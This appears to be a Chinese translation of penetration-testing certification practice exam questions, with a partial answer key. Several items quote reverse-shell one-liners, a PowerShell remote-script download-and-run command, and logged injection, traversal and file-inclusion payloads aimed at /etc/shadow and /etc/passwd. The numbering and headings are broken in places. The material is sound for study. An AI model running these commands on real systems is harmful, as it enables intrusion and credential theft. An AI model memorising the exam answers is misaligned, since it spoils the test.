1. 使用暴力破解获取用户的密码。
2. 执行 LLMNR/NETBIOS-NS 查询。
3. 利用 BeEF 框架捕获凭据。
4. 执行 ARP 欺骗中毒。

### 71. 你是一名渗透测试人员，正在为新客户进行测试。你正在对客户网络上的交换机进行 ARP 欺骗。以下哪个 MAC 地址你应该欺骗以获取最多的信息？
1. 客户端的 MAC 地址
2. 域控制器的 MAC 地址
3. Web 服务器的 MAC 地址
4. 网关的 MAC 地址

### 72. 你和同事正在讨论可能发生的不同类型的攻击。一种攻击类型是双方之间的通信被拦截然后转发，双方都不知道拦截的发生。你在讨论什么类型的攻击？
1. 中间人攻击
2. 精准钓鱼攻击
3. 传递访问攻击
4. URL 劫持攻击

### 73. 你是一名渗透测试人员，将为新客户进行测试。客户要求你执行无线渗透测试。在测试开始之前，你最可能需要哪些范围目标信息？
1. 客户使用的无线设备的频段和频率
2. 客户首选的无线接入点厂商
3. 客户拥有的无线设备数量


### 4. 物理位置和待测试的网络 ESSID

#### 74. 你是一名渗透测试人员，正在为新客户进行测试。你已成功部署了一个恶意双胞胎，并且开始看到部分客户的流量。下一步你希望采取什么措施来捕获客户的所有未加密网页流量？
1. 收获用户凭据以解密流量。
2. 通过冒充受信任的 CA 实现证书颁发机构（CA）攻击。
3. 实现 HTTP 降级攻击。
4. 执行中间人（MITM）攻击。

#### 75. 你和同事正在讨论攻击者可能使用的不同类型的攻击。一种攻击类型是在目标通过蓝牙发送未经请求的邮件时进行。你在讨论哪种类型的攻击？
1. 蓝牙窃取攻击
2. 蓝牙狙击攻击
3. 蓝牙劫持攻击
4. 战争粉笔攻击

#### 76. 你是一名渗透测试人员，正在为新客户进行测试。你在服务器上发现了以下日志条目：
```
Nov 19 2018 00:21:15 httpd[2342]: GET
/app2/prod/proc/process.php?input=change;cd%20../../../etc;cat%20shadow
```
尝试了什么类型的攻击？
1. 缓冲区溢出
2. 命令注入
3. 跨站脚本
4. 密码攻击

#### 77. 你和同事正在讨论可能发生的不同类型的攻击。其中一种攻击是客户端攻击，用于通过网页浏览器使用 JavaScript 代码操纵 HTML iframe。你在讨论哪种类型的攻击？
1. 缓冲区溢出
2. 跨站脚本（XSS）
3. 中间人（MITM）
4. SQL 注入（SQLi）

#### 78. 你是一名渗透测试人员，正在为新客户进行测试。你发现了客户域控制器的一个漏洞。该漏洞是域控制器上启用了空会话。可以通过利用此漏洞执行什么类型的攻击？
1. 攻击者可以尝试传递哈希以中继凭据。
2. 攻击者可以尝试密码暴力破解以登录主机。
3. 攻击者可以尝试 RID 循环以枚举用户和组。
4. 攻击者可以尝试会话劫持以冒充系统账户。

#### 79. 你是一名渗透测试人员，刚刚为新客户完成了测试。你发现一个遗留 Web 应用程序容易受到 SQL 注入攻击。客户表示修复该漏洞需要架构更改，而管理层不希望当前应用程序发生任何风险。以下哪种条件可以在提供低工作量和短期解决方案的同时最大程度地降低 SQL 注入风险？（选择两项。）
1. 从存储过程中识别并删除动态 SQL。
2. 从代码中识别并删除内联 SQL 语句。
3. 识别并清理所有用户输入。
4. 识别恶意输入的来源并阻止 IP 地址。
5. 对于 SQL 语句，使用黑名单验证。
6. 对于 SQL 语句，使用白名单验证。

#### 80. 你是一名渗透测试人员，正在为新客户进行测试。在查看 Web 应用程序的日志时，你发现了一个可疑请求。该请求显示以下 URL：`http://www.mycompany.com/about.php?i=../../../etc/passwd`。此请求试图做什么？
1. 该请求正尝试跨站脚本。
2. 该请求正尝试目录遍历。
3. 该请求正尝试远程文件包含。
4. 该请求正尝试用户枚举。

## Chapter 7

### Practice Exam 2

#### 1. 你是一名渗透测试人员，正在为新客户进行测试。客户希望你审查新 Web 应用程序的可用性。测试人员应利用哪种类型的攻击？
1. TCP SYN 洪泛
2. SQL 注入
3. 跨站脚本（XSS）
4. XMAS 扫描

#### 2. 你是一名渗透测试人员，正在为新客户进行测试。你正在扫描客户的 Web 应用程序。在审查扫描结果时，以下哪个漏洞是最关键的，应优先进行利用？
1. 点击劫持
2. 过期证书
3. 填充路径披露
4. 存储型跨站脚本（XSS）

#### 3. 你是一名渗透测试人员，正在为新客户进行测试。客户要求你对 Web 应用程序进行测试。你发现用户登录过程使用 HTTP GET 方法发送表单字段数据。为了降低泄露敏感数据的风险，HTML 表单应使用哪种方法发送？
1. HTTP OPTIONS 方法
2. HTTP POST 方法
3. HTTP PUT 方法
4. HTTP TRACE 方法

#### 4. 你是一名渗透测试人员，正在为新客户进行测试。你和客户正在讨论竞态条件利用。以下哪一项是竞态条件的示例？
1. 跨站请求伪造（XSRF）
2. 硬编码凭据
3. SQL 注入（SQLi）
4. 检查时到使用时（TOCTTOU）

#### 5. 你是一名渗透测试人员，正在为新客户进行测试。你希望针对客户的 Web 应用程序发起会话劫持攻击。为了确保攻击成功，需要获取什么信息？
1. 会话 Cookie
2. 会话票据
3. 用户名
4. 用户密码

#### 6. 近期，多名员工成为钓鱼攻击的受害者。他们收到一封看起来来自公司总裁的电子邮件。电子邮件称，如果员工不按照邮件指示并点击消息中的链接，将会受到纪律处分。攻击者使用了社会工程学的哪个原则？
1. 权威
2. 恐惧
3. 稀缺
4. 社会认同

#### 7. 你是一名渗透测试人员，正在为新客户进行测试。你从被利用的机器上运行以下命令：
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
你正在执行什么操作？
1. 你正在创建沙箱。
2. 你正在捕获凭据。
3. 你正在删除 Bash 历史记录。
4. 你正在升级 Shell。

#### 8. 你是一名渗透测试人员，正在为新客户进行测试。你在测试客户网络时，发现了一些未加引号的服务路径。你如何利用这些漏洞？
1. 通过尝试破解服务账户密码
2. 通过尝试 DLL 劫持攻击
3. 通过尝试定位弱文件和文件夹权限
4. 通过尝试权限提升攻击

#### 9. 最近，一名用户注意到其机器在过去一周内运行异常。他们经历了输入延迟，系统运行缓慢。用户发现了一些文本文件，似乎包含其电子邮件和即时通讯对话的片段。用户运行病毒扫描，但未检测到任何内容。这种机器可能受到什么类型的恶意软件影响？
1. 后门
2. 键盘记录器
3. 勒索软件
4. Rootkit

#### 10. 你是一名渗透测试人员，正在为新客户进行测试。你被要求通过进入公司办公室来评估客户的物理安全。你正在寻找一种方法，使你能够在工作时间和非工作时间进入大楼。你尝试的最有效方法是什么？
1. 尝试徽章克隆。
2. 尝试开锁。


# 渗透测试问题

### 3. 尝试绕过锁。

### 4. 尝试尾随进入。

## 11. 你是一名渗透测试人员，并且正在为新客户进行测试。你正在进行物理安全评估，并且在测试期间想要使用一个“under-the-door-tool”。以下哪种入侵技术应该使用？
1. 触发出入口传感器
2. 锁撞击
3. 锁绕过
4. 撬锁

## 12. 你和同事正在讨论即将进行的物理安全评估。讨论转向了防尾随门。以下哪种类型的物理安全攻击是防尾随门所利用的？
1. 冒充
2. 撬锁
3. 尾随
4. 肩窥

## 13. 你是一名渗透测试人员，并且正在为新客户完成测试。你在一次任务结束时运行了 `chkconfig --del <servicename>` 命令。为什么要运行此命令？
1. 检查持久性
2. 启用持久性
3. 移除持久性
4. 报告持久性

## 14. 你是一名渗透测试人员，并且正在为新客户完成测试。你已成功利用应用程序漏洞，现在需要从 Linux 会话中删除命令历史记录。哪个命令会删除命令历史记录？
1. `$` `cat history /clear`
2. `$` `history -c`
3. `$` `history --remove`
4. `$` `rm -f ./history`

## 15. 你和同事正在讨论在进行渗透测试时可以使用不同的实用程序。以下哪一个是可以在 Windows 系统上使用的实用程序，用于建立到远程 Windows 系统控制台的命令行访问，类似于旧的 Telnet 客户端？
1. `PsExec`
2. `Remote Login (Rlogin)`
3. `Remote Shell (RSH)`
4. `Virtual Network Computing (VNC)`

## 16. 你和同事正在讨论在进行渗透测试时可以使用不同的实用程序。以下哪一个允许进行远程管理和数据收集，并且安装在所有 Windows 系统上？
1. `Samba (SMB)`
2. `Virtual Network Computing (VNC)`
3. `Windows Management Instrumentation (WMI)`
4. `Windows Remote Desktop (RDP)`

## 17. 你是一名渗透测试人员，并且正在为新客户进行测试。你想使用 `nmap` 扫描远程系统。你使用以下命令：
- `nmap 142.78.32.0/24`
你将扫描多少个 TCP 端口？
1. 256
2. 1,000
3. 1,024
4. 65,535

## 18. 你是一名渗透测试人员，并且正在为新客户进行测试。你在计算机上运行以下 `nmap` 扫描：`nmap -sV 192.168.10.5`。客户表示他们已从环境中禁用了 Telnet。但是，`nmap` 扫描结果显示端口 22 已关闭，并且端口 23 对 SSH 开放。这可能发生了什么原因？
1. 组织未禁用 Telnet。
2. `nmap` 结果对端口 23 存在误报。
3. 服务运行在非标准端口上。
4. 端口 22 被过滤。

## 19. 你是一名渗透测试人员，并且正在为新客户进行测试。你计划使用 `hping` 命令向远程系统发送流量。如果使用脚本 `hping remoteclient.com -S -V -p 80`，远程系统会看到什么类型的流量？
1. 到 TCP 端口 80 的 HTTP 流量
2. 到 TCP 端口 80 的 HTTPS 流量
3. 到 TCP 端口 80 的 TCP SYN
4. 到 TCP 端口 80 的 TCP 三次握手

## 20. 你是一名渗透测试人员，并且正在为新客户进行测试。你计划使用 `nmap`。如果想扫描已识别设备上的所有 TCP 端口，必须使用哪个 `nmap` 开关？
1. `-p- 1-65535`
2. `-p ALX,`
3. `-p 1-65544`
4. `-port 1-65534`

## 21. 你是一名渗透测试人员，并且正在为新客户进行测试。你计划使用 `nmap` 使用公司提供的文本文件进行操作系统指纹识别，该文件包含所有 IP 地址的列表。要使用文本文件进行操作系统指纹识别，需要在代码中包含哪些开关？（选择两项。）
1. `-iL`
2. `-O`
3. `-oN`
4. `-oX`
5. `-sS`
6. `-sV`

## 22. 你是一名渗透测试人员，并且正在为新客户进行测试。你想对客户的外部域进行被动侦察。你最好选择使用什么？
1. CeWL
2. OpenVAS
3. Peach
4. Shodan

## 23. 你是一名渗透测试人员，并且正在为新客户进行测试。你已成功利用一个似乎正在监听外发端口的 DM2 服务器。你想将该流量转发回设备。最好使用哪些工具来执行此操作？（选择两项。）
1. `Cain and Abel`
2. `Netcat`
3. `Nmap`
4. `Secure Shell (SSH)`
5. `Tcpdump`
6. `Wireshark`

## 24. 你是一名渗透测试人员，并且正在为新客户进行测试。你正在进行测试并且已入侵客户的主机。在此设备上创建 Netcat 侦听器的正确语法是什么？
1. `nc -lp 4444 -e /bin/bash`
2. `nc -lvp 4444 /bin/bash`
3. `nc -p 4444 /bin/bash`
4. `nc -vp 4444 /bin/bash`

## 25. 你是一名渗透测试人员，并且正在为新客户进行测试。你想针对 NetBIOS 名称服务。以下哪个命令最有可能用于利用 NetBIOS 名称服务？
1. `arpspoof`
2. `burpsuite`
3. `nmap`
4. `responder`

## 26. 你是一名渗透测试人员，并且正在为新客户进行测试。你想从公开可用来源进行开源情报（OSINT）数据收集。你可以使用以下哪些工具？（选择两项。）
1. `BeEF`
2. `Dynamo`
3. `Maltego`
4. `SET`
5. `Shodan`
6. `Wireshark`

## 27. 你是一名渗透测试人员，并且正在为新客户进行测试。你想在 Windows 网络上捕获用户哈希。你想收集广播消息，并且在捕获后能够使用哈希进行身份验证。应该使用什么工具？
1. `Impacket`
2. `Metasploit`
3. `Responder`
4. `Wireshark`

## 28. 你是一名渗透测试人员，并且正在为新客户进行测试。你想对客户的应用程序执行凭据暴力破解攻击。应该使用什么工具？
1. `Hashcat`
2. `Hydra`
3. `John the Ripper`
4. `Peach`

## 29. 你是一名渗透测试人员，并且正在为新客户进行测试。作为渗透测试的一部分，你需要建立与客户位置的计算机系统和设备的活动连接以枚举和指纹识别它们。你可以使用以下哪些工具来执行此操作？（选择两项。）
1. `Aircrack-ng`
2. `hping`
3. `nmap`
4. `whois`

## 30. 你是一名渗透测试人员，并且正在为新客户进行测试。你想使用 Metasploit。哪个命令将启动 Metasploit 数据库？
1. `db_connect`
2. `db_init`
3. `msfconsole`
4. `msfvenom`

## 31. 你是一名渗透测试人员，并且正在为新客户进行测试。你想通过线路捕获 NTLM v2 哈希以用于传递哈希攻击。哪个工具不允许你通过线路捕获 NTLM v2 哈希？
1. `Ettercap`
2. `Mimikatz`
3. `Metasploit`
4. `Responder`

## 32. 你是一名渗透测试人员，并且正在为新客户进行测试。你已捕获 NTLM 哈希并想进行传递哈希攻击。不幸的是，你不知道网络上哪些系统可能接受该哈希。应该使用什么工具来进行测试？
1. `Drozer`
2. `Hashcat`
3. `Hydra`
4. `Kismet`


# 渗透测试问题

## 33. 你是一名渗透测试人员，正在为新客户进行测试。你希望在测试中部署一个恶意网站来利用客户员工的浏览器。测试可以使用什么工具？
1. 浏览器利用框架 (BeEF)
2. Metasploit
3. 开放式 Web 应用安全项目 (OWASP)
4. 社会工程工具包 (SET)

## 34. 你是一名渗透测试人员，正在为新客户进行测试。你计划使用客户的网站创建关于客户的常用词和口头用语的自定义词表。你可以使用什么工具来协助构建自定义词表？
1. CeWL
2. Hashcat
3. Hydra
4. Medusa

## 35. 你是一名渗透测试人员，正在为新客户进行测试。在内部渗透测试期间，观察到多个多播和广播名称解析请求在网络中移动。你想冒充网络资源并收集身份验证请求。应该使用什么工具？
1. Ettercap
2. Medusa
3. Tcpdump
4. Responder

## 36. 你是一名渗透测试人员，正在为新客户进行测试。你想进行搜索以查看客户的计算机和设备是否已连接到互联网。你希望能够使用多种过滤器。可以用来完成此操作的工具是什么？
1. Censys
2. Shodan
3. TheHarvester
4. Whois

## 37. 你是一名渗透测试人员，正在为新客户进行测试。你想进行搜索以查看客户的计算机和设备是否已连接到互联网，并查看其 geoIP 信息是否可用。可以用来完成此操作的工具是什么？
1. Censys
2. Shodan
3. TheHarvester
4. Whois

## 38. 你是一名渗透测试人员，正在为新客户进行测试。你正在对特定的客户数据库服务器进行测试。你想检测该服务器上的任何漏洞。什么工具最能帮助你？
1. Nessus
2. Nikto
3. Sqlmap
4. OpenVAS

## 39. 你是一名渗透测试人员，正在为新客户进行测试。在灰盒渗透测试期间，你希望能够设置一个反向 shell 漏洞利用，其中目标网络上的受损系统“回拨”到你在笔记本电脑上设置的侦听器，并允许你远程控制受损系统。可以使用的远程访问工具是什么？
1. Wireshark
2. Impacket
3. Netcat
4. Responder

## 40. 你是一名渗透测试人员，正在为新客户进行测试。在灰盒渗透测试期间，你希望能够设置一个绑定 shell 漏洞利用，其中在客户网络上的受损系统上设置侦听器。你可以使用哪些远程访问工具来实现此目的？（选择两个。）
1. Empire
2. Ncat
3. Netcat
4. Powersploit
5. Searchsploit

## 41. 你是一名渗透测试人员，正在为新客户进行测试。在灰盒渗透测试期间，你想对客户的域控制器进行查询中毒，以将客户请求重定向到你的笔记本电脑并捕获用户名和哈希密码。可以使用的工具是什么？
1. Empire
2. Impacket
3. Responder
4. Searchsploit

## 42. 你是一名渗透测试人员，正在为新客户进行测试。你正在编写以下 Python 代码：
```
if 1 == 1:
     print("howdy")
elif 3 == 3:
     print("howdy")
else:
     print("howdy")
```
这段代码会打印 *howdy* 这个词多少次？
1. 0
2. 1
3. 2
4. 3

## 43. 你是一名渗透测试人员，正在为新客户进行测试。你正在分析一个脚本以确定为什么脚本没有返回预期的正确结果。预期结果应为 True。
```
root:~# cat ./myscript.sh
#!/bin/bash
source=10
let dest=5+5
if [ 'source' = 'dest' ]; then
   echo "True"
else
   echo "False"
fi
#End of File
root:~# ./myscript.sh
False
```
通过审查脚本，应如何更正错误以返回正确的结果？（选择两个。）
1. 将 "fi" 改为 "EndIf"。
2. 删除 dest=5+5 前面的 "let"。
3. 将 "=" 改为 "-eq"。
4. 将 "'source'" 和 "'dest'" 改为 "'Ssource'" 和 "'Sdest'"。
5. 将 "else" 改为 "elif"。

## 44. 你是一名渗透测试人员，正在为新客户进行测试。你想使用 PowerShell 脚本创建一个数组。你会使用哪一行代码？
1. `$ports = 20, 25, 80, 443`
2. `ports = (20,25,80,443)`
3. `ports = \[20,25,80,443\]`
4. `$ports= \[20,25,80,443\]`

## 45. 你是一名渗透测试人员，正在为新客户进行测试。你打算在客户系统上运行以下命令：
`bash -i >& /dev/tcp/10.2.4.6/443 0>&1`
在 Linux 系统上需要执行什么附加命令才能使前一个命令正常工作？
1. `nc -nvlp 443`
2. `nc 10.2.4.6 443`
3. `nc -w3 10.2.4.6 443`
4. `nc-/bin/ah 10.2.4.6 443`

## 46. 你是一名渗透测试人员，正在为新客户进行测试。你正在使用 PowerShell 进行测试。你正在使用以下 PowerShell 命令：
`powershell.exe IEX (New-Object Net.Webclient).downloadstring([`site/`](http://site/)script.ps1");Invoke-Command`
此命令执行什么操作？
1. 它执行远程脚本。
2. 它合并一个对象。
3. 它运行编码命令。
4. 它设置执行策略。

## 47. 你是一名渗透测试人员，正在为新客户进行测试。你通过使用端口 443 进入了一个不受限制的系统网络。你想从客户处创建反向 shell 回到你的计算机。你最有可能使用哪种方法？
1. `bash -i >& /dev/tcp/<DESTINATIONIP>/443 0>&1`
2. `nc -e /bin/sh <SOURCEIP> 443`
3. `perl -e 'use SOCKET'; $i='<SOURCEIP>; $p='443;`
4. `ssh superadmin@<DESTINATIONIP> -p 443`

## 48. 你是一名渗透测试人员，正在为新客户进行测试。在渗透测试期间，以下代码行在被利用机器的历史文件中被找到：
`bin/bash -i >& /dev/tcp/192.168.0.10/80 0> &1`
最好描述此命令行做什么？
1. 已执行端口扫描。
2. 它获取 Web 服务器的横幅。
3. 它将电传打字机 (TTY) 重定向到远程系统。
4. 它删除给定 IP 的错误日志。

## 49. 你是一名渗透测试人员，正在完成新客户的测试。测试完成后，你正在为执行摘要优先考虑发现和建议。以下哪一项考虑对你的客户最有利？
1. 补丁和其他补救措施的可用性
2. 利用已识别漏洞的难度级别
3. 客户组织的风险承受能力
4. 完成每个步骤所需的时间

## 50. 你是一名安全分析师，刚刚为新客户完成了渗透测试。你正在撰写执行摘要。撰写执行摘要时什么项目不合适？
1. 你应该包含所有发现和漏洞的描述。
2. 你应该包含所有发现漏洞的风险声明。
3. 你应该确保它用通俗语言书写。
4. 你应该包含与测试相关的所有技术细节。


# 渗透测试问题

## 51. 你是一名渗透测试人员，刚刚为新客户完成了测试。详细渗透报告已提交给安全分析师。渗透测试针对客户的 DMZ 环境进行。报告中发现一项漏洞，通用漏洞评分系统（CVSS）基础得分为 1.0。利用此漏洞需要哪种难度级别？
1. 非常困难，因为边界系统通常位于防火墙后面
2. 有一定难度，因为利用它需要强大的处理能力
3. 轻而易举，因为利用该发现所需的工作量很小
4. 不可能，因为外部主机已加固以抵御攻击

## 52. 你是一名渗透测试人员，正在为新客户规划测试。你正在撰写一份报告，概述对运营的总体风险水平。你应该在哪一部分报告中包含此信息？
1. 附录
2. 执行摘要
3. 主体
4. 技术摘要

## 53. 你是一名安全分析师，正在审查最近针对内联网服务进行的内部漏洞扫描结果。扫描报告指出存在关键漏洞。报告显示如下：
* 标题：Web 服务器中的远程命令执行漏洞
* 评级：严重（CVSS 10.0）
* 威胁行为者：Web 服务器的任何远程用户
* 置信度：确定
* 建议：应用厂商补丁
你应该首先做什么？
1. 应用风险评级并评估其对组织的影响。
2. 利用服务器以确定扫描是否指示了误报。
3. 通知高级管理层有关该漏洞。
4. 安排关键的非周期性补丁。

## 54. 你是一名渗透测试人员，刚刚为新客户完成了测试。你正在创建测试后的发现书面报告。你应该在哪一部分报告中为读者提供测试执行情况和发现结果的深入概述？
1. 在执行摘要部分
2. 在发现和补救部分
3. 在方法论部分
4. 在指标和度量部分

## 55. 你是一名渗透测试人员，刚刚为新客户完成了测试。你正在创建测试后的发现书面报告。基于测试结果，你列出了一份你认为客户应重点关注的建议清单。你应该在哪一部分报告中放置这些建议？
1. 在结论部分
2. 在执行摘要部分
3. 在发现和补救部分
4. 在方法论部分

## 56. 你是一名渗透测试人员，刚刚为新客户完成了测试。你正在进行任务后清理。在任务后清理阶段执行哪些活动？（选择三项。）
1. 修复漏洞
2. 删除使用的任何工具
3. 删除 shell
4. 删除测试人员创建的凭据

## 57. 你是一名渗透测试人员，刚刚为新客户完成了测试。在测试后清理时发现客户没有必要的数据擦除工具。然后将所需工具分发给需要的技术人员。你应该在哪一阶段重新审视此问题？
1. 在经验教训阶段
2. 在缓解阶段
3. 在准备阶段
4. 在报告阶段

## 58. 你是一名渗透测试人员，正在为新客户进行测试。你几乎完成了测试，并且希望确保任务后清理过程没有问题。在测试阶段你应该做什么以确保任务后工作顺利进行？
1. 你应该创建后门以便以后可以访问它们。
2. 你应该仔细记录测试期间所做的一切。
3. 你应该删除利用期间创建的任何日志条目。
4. 你应该创建所有系统和设备的镜像，以便将它们恢复到测试前的状态。

## 59. 你是一名渗透测试人员，刚刚为新客户完成了测试。你正在进行任务后清理过程。在任务后清理过程中你应该做什么？（选择两项。）
1. 你希望确保删除测试期间创建的任何 shell 会话。
2. 你希望确保向客户隐藏测试期间所做的一切。
3. 你希望确保记录测试期间所做的一切。
4. 你希望隐藏测试后清理期间所做的一切。

## 60. 你是一名渗透测试人员，刚刚为新客户完成了测试。你正在与客户会面讨论渗透测试。会议结束时，你要求客户签署一份协议，声明你已根据合同履行了你的责任。这叫什么？
1. 发现证明
2. 客户验收
3. 后续行动/重新测试
4. 经验教训

## 61. 你是一名渗透测试人员，刚刚为新客户完成了测试。你正在与客户会面讨论渗透测试。在此次会议中，你向客户提供一份文件，声明你已进行测试，并且客户符合客户政府合同之一规定的规则和法规。这叫什么？
1. 发现证明
2. 客户验收
3. 后续行动/重新测试
4. 经验教训

## 62. 某组织 IT 部门的一名初级技术人员对企业 Web 应用程序进行渗透测试。在测试期间，技术人员发现应用程序可以泄露包含所有企业用户账户和密码信息的 SQL 表。初级技术人员应如何通知高层管理？
1. 技术人员应使用此信息连接到 SQL 服务器并更改几个非关键账户的密码，以向管理层证明概念。
2. 技术人员应使用执行摘要记录发现结果，包括建议和屏幕截图提供给管理层。
3. 技术人员应通知开发团队该发现并建议在 Web 应用程序的 SQL 查询字符串上强制执行输入验证。
4. 技术人员应要求管理层创建建议书请求（RFP），以开始与专业渗透测试公司进行正式合作。

## 63. 你和同事正在讨论一个组织实施电子邮件内容过滤的场景，以阻止看起来来自内部来源但未经适当身份验证的传入消息。他们还可能过滤掉包含高风险关键词或似乎来自已知恶意来源的任何消息。这属于哪种常见的补救活动类别？
1. 测量
2. 人
3. 流程
4. 技术

## 64. 你和同事正在讨论多因素身份验证。你的同事请你举例说明多因素身份验证是什么。你会告诉同事什么？
1. 多因素身份验证是使用生物识别指纹和语音识别
2. 多因素身份验证是使用智能卡和 PIN
3. 多因素身份验证是使用视网膜扫描和语音识别
4. 多因素身份验证是使用用户名、PIN 和员工 ID 号


### 65. 你和同事正在讨论不同的多因素认证类别。一个例子可能是员工使用带有认证令牌的密钥 fob，该令牌生成必须在登录时使用的单次密码。这种情况属于哪种多因素认证类别？
1. 你所是的
2. 你所拥有的
3. 你所知道的
4. 你所需要的

### 66. 你是一名渗透测试员，正在为新客户进行测试。你注意到在公共 Web 服务器上监听着多个高编号端口。客户表示他们仅使用 443 端口运行应用程序。你应该向客户推荐什么？
1. 他们应禁用不需要的服务
2. 他们应将 443 端口过滤到特定 IP 地址
3. 他们应实施 Web 应用防火墙
4. 他们应将应用程序迁移到另一个端口

### 67. 你是一名渗透测试员，正在为新客户进行测试。你能够将 SQL 注入命令输入到文本框中并访问数据库中存储的信息。你应该向客户推荐什么来缓解该漏洞？
1. 他们应实施输入规范化
2. 他们应安装基于主机的入侵检测
3. 他们应执行系统加固
4. 他们应随机化用于登录的凭据

### 68. 你是一名渗透测试员，正在为新客户进行测试。客户要求你测试多个 Web 服务器的安全性。你能够通过利用与 DNS、FTP、IMAP、POP、SMTP 和 Telnet 的使用相关的漏洞，在多个服务器上获得 root/管理员访问权限。你应就如何更好地保护其 Web 服务器向客户提出什么建议？
1. 他们应禁用任何不必要的服务。
2. 他们应增加应用程序事件日志记录。
3. 他们应使用蜜罐。
4. 他们应使用传输层安全（TLS）。

### 69. 你是一名渗透测试员，刚刚为新客户完成了测试。你正在审查结果。你注意到客户在所有系统上使用相同的本地管理员密码。你可以使用什么工具来帮助解决此问题？
1. 本地管理员密码解决方案（LAPS）
2. 有限管理员密码协助（LAPA）
3. Nessus
4. Metasploit

### 70. 你是一名渗透测试员，正在为新客户进行测试。在测试过程中，你成功入侵了一台工作站。之后，你能够在域中横向移动，几乎没有阻碍。你应在报告中向客户推荐哪些迁移策略？（选择三项。）
1. 他们应应用额外的网络访问控制
2. 对于所有登录，他们应要求多因素认证
3. 对于每台机器，他们应随机化本地管理员凭据
4. 对于本地管理员，他们应禁用远程登录
5. 他们应提高最小密码复杂度要求
6. 他们应将每个主机放入其自己的虚拟局域网（VLAN）
7. 在每台工作站上，他们应启用全盘加密

### 71. 你是一名渗透测试员，正在为新客户进行测试。你正在监控 Web 应用防火墙（WAF）日志，发现以下 URL 遭受了成功攻击：`https://sample.com/index.php?Phone=http://iattackedyou.com/stuffhappens/revshell.php`。
应采取什么补救措施以防止此类攻击再次发生？
1. 阻止 URL 重定向。
2. 对参数进行双重 URL 编码。
3. 从应用程序停止外部调用。
4. 实施黑名单。

### 72. 你是一名渗透测试员，正在为新客户进行测试。在尝试钓鱼时，你从 IT 部门成员处获取了初始 VPN 用户域凭据。然后你通过 VPN 获取了哈希，并通过使用字典攻击轻松破解了它们。你应向客户推荐哪些补救措施？（选择三项。）
1. 建议提高密码复杂度要求。
2. 建议为远程访问实施双因素认证。
3. 建议安装入侵防御系统。
4. 建议安装安全信息事件监控解决方案。
5. 建议防止 IT 部门成员以管理员身份交互式登录。
6. 建议要求所有员工接受安全意识培训。
7. 建议升级 VPN 解决方案所使用的密码套件。

### 73. 你是一名渗透测试员，正在为新客户进行测试。在完成对面向互联网的应用程序的测试后，你注意到应用程序仅使用基本身份验证。你应向客户推荐的最佳补救策略是什么？
1. 他们应启用 HTTP 严格传输安全（HSTS）
2. 他们应启用安全 cookie 标志
3. 他们应加密通信通道
4. 他们应清理无效用户输入

### 74. 你是一名渗透测试员，正在为新客户进行测试。在渗透测试过程中，你需要与客户沟通。以下哪种情况会导致这种沟通发生？（选择两项。）
1. 在尝试测试后，系统变得不可用。
2. 系统显示先前未经授权访问的迹象。
3. 系统显示缺乏完整的加固。
4. 测试人员在系统上发现了可单独识别的数据。
5. 测试人员发现了超出范围系统的东西。

### 75. 你是一名渗透测试员，刚刚为新客户完成了测试。你的报告列出了总共九个漏洞，其中四个被确定为严重。客户没有预算立即纠正所有漏洞。在这种情况下，你认为对客户来说最好的选择是什么？
1. 他们应为严重漏洞应用易于实施的补偿控制以最小化风险，然后重新确定补救优先级
2. 他们应确定可以最快修复的漏洞并首先处理它们
3. 他们应首先实施影响最小的严重漏洞修复，然后再处理其他严重漏洞
4. 他们应首先纠正最严重的漏洞，即使这意味着修复其他漏洞可能需要更长时间

### 76. 你是一名渗透测试员，正在为新客户进行测试。在测试客户的核心服务器期间，你发现了一个严重漏洞。你接下来应该做什么？
1. 完成测试，完成所有发现，然后提交给客户。
2. 立即向客户发出警报并提供发现的详细信息。
3. 在目标机器上禁用受影响服务的网络端口。
4. 将目标机器离线，使其无法被利用。

### 77. 你的公司被要求执行物理安全评估。然而，在测试期间，一名个人被抓到尾随进入客户设施。该个人声称他是渗透测试员并坚持要求被释放。在对擅闯提出任何刑事指控之前，客户 IT 部门的一名成员致电你的办公室，以确定擅闯者是否真的是渗透测试团队的成员。这种类型的通信路径叫什么？
1. 冲突解除
2. 降级


3. 目标重新排序
4. 状况感知

### 78. 你是一名渗透测试员，正在为新客户进行测试。在测试期间，客户开始收到客户投诉，称网站响应缓慢或崩溃。客户的网络管理员发现，针对公司 Web 服务器的分布式拒绝服务（DDoS）攻击正在进行中。销售开始受损，因此网络管理员联系你并要求你停止 DDoS 攻击。这条沟通路径叫什么？
1. 冲突消除
2. 降级
3. 目标重新排序
4. 状况感知

### 79. 你是一名渗透测试员，计划为新客户进行黑盒渗透测试。你已完成测试的侦察阶段，现在准备进入下一个测试阶段。然而，在这样做之前，你联系客户并告知他们测试正在推进。使用了什么类型的沟通触发？
1. 关键发现
2. 沟通路径
3. 状况感知
4. 阶段

### 80. 你是一名渗透测试员，正在为新客户进行灰盒渗透测试。在测试期间，你发现客户的许多 Windows 桌面系统未更新且易受攻击。与其等到测试结束，你联系客户警告他们系统需要更新以防止任何不必要的攻击。使用了什么类型的沟通触发？
1. 关键发现
2. 沟通路径
3. 状况感知
4. 阶段

# 附录

## 答案和解释

### 第 1 章：规划和界定渗透测试范围

1. C. 渗透测试过程中的第一步是与客户合作，明确界定测试范围。范围决定了渗透测试人员将做什么以及如何花费时间。研究组织的产品是一项任务，可能在工作范围确定后才会进行。确定预算和获得授权通常是作为整体范围界定过程的一部分完成的子任务。
2. D. 红队评估通常比正常的渗透测试更具针对性。红队像攻击者一样行动，针对敏感数据或系统，目标是获取访问权限。基于目标或基于目标的评估通常旨在评估组织的整体安全性。基于合规性的评估旨在测试对特定法律的合规性。
3. C. 由于患者记录在美国受 HIPPA 法律保护，这是一个合规性评估的例子。基于合规性的评估旨在测试对特定法律的合规性。基于目标的评估通常旨在评估组织的整体安全性。灰盒和白盒评估确定攻击者对组织的了解程度。
4. D. 白盒测试是在完全了解目标组织网络的底层技术、配置和设置的情况下进行的。在黑盒测试中，测试人员不会获得目标环境的访问权限或信息。基于目标或基于目标的评估通常旨在评估组织的整体安全性。
5. A. 灰盒测试可能会向渗透测试人员提供有关环境的某些信息，而不提供完全访问、凭据或配置详细信息。白盒测试是在完全了解底层网络的情况下进行的。在黑盒测试中，测试人员不会获得目标环境的访问权限或信息。基于合规性的评估旨在测试对特定法律的合规性。
6. B. 黑盒测试有时被称为 *零知识* 测试，因为它们复制了典型外部攻击者会遇到的情况。测试人员不提供任何访问权限或信息。白盒测试是在完全了解底层网络的情况下进行的。灰盒测试可能会向渗透测试人员提供有关环境的某些信息，而不提供完全访问权限。基于目标的评估通常旨在评估组织的整体安全性。
